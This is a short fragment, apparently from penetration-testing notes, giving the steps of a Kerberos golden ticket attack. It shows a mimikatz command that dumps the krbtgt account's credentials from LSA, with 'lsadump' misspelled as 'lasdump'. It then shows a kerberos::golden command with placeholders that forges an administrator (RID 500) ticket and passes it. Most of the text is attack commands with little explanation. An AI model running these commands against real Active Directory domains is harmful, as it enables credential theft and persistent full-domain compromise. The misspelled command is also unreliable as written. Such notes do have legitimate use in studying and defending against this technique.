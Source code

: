 To perform this, we need to dump the `krbtgt` account credentials using mimikatz.

```sh
lasdump::lsa /inject /name:krbtgt
```


We can then exfiltrate the `sid` of the domain and the kerberos hash of the TGT.

We can then run the following command

```sh
kerberos::golden /User:<username> /domain:<domain_name> /sid:<sid_of_the_domain> /krbtgt:<kerberos_hash> /id:500 /ptt
```
ptt: Pass the ticket


